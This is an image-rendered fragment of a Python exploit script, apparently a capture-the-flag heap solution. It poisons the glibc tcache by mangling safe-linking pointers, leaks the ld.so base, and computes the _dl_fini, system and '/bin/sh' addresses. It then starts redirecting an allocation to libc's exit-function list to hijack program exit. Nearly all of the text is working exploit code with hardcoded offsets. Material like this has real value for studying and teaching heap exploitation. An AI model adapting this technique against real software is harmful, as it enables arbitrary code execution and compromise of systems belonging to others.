```
free_chunk(5)
free_chunk(6)

# Calculate the mangled next address
tcache_chunk_address1 = heap_base + 0x1c20
ld_ptr_address = libc_base + 0x22c1b0

mangled_next = (ld_ptr_address ^ (tcache_chunk_address1 >> 12))

# Overwrite tcache next ptr of the head
edit_chunk(6, p64(mangled_next))

# Remove them, so we can reuse the 5/6 indices
remove_chunk(5)
remove_chunk(6)

allocate_new_chunk(0xa0, 5)
# Get the chunk to the ld.so ptr with this allocation
allocate_new_chunk(0xa0, 6)

# Fill up the space to the ptr
edit_chunk(6, b"0"*23)

# Get the `ld.so` address, calculate `ld.so` base

ld_leak_bytes = view_chunk(6)
ld_address_leak_bytes = ld_leak_bytes[24:]
ld_leak_address = u64(ld_address_leak_bytes + b"\x00"*(8-len(ld_address_leak_bytes)))
ld_base = ld_leak_address - 0x16340
dl_fini_address = ld_base + 0x3d30

print("ld base: " + hex(ld_base))
print("_dl_fini address: " + hex(dl_fini_address))

# So we have the address of dl_fini
# Let's go ahead and allocate a chunk to initial
# We will do this, to both leak the mangled instruction ptr
# And then, write our own exit_function

# Libc addresses we will need
initial_address = libc_base + 0x22e1a0
system_address = libc_base + 0x48810
binsh_address = libc_base + 0x18cf2d

print("Initial Address: " + hex(initial_address))

# Free two chunks insert them into the tcache
free_chunk(1)
free_chunk(3)

# Prepare the mangled next ptr for initial

tcache_chunk_address = heap_base + 0x1f90
print("Tcache Chunk: " + hex(tcache_chunk_address))
mangled_next = (initial_address ^ (tcache_chunk_address >> 12))
print("Mangled Next: " + hex(mangled_next))

# Overwrite the next ptr of the head, with our mangled next ptr to initial

edit_chunk(3, p64(mangled_next))

remove_chunk(1)
remove_chunk(3)
```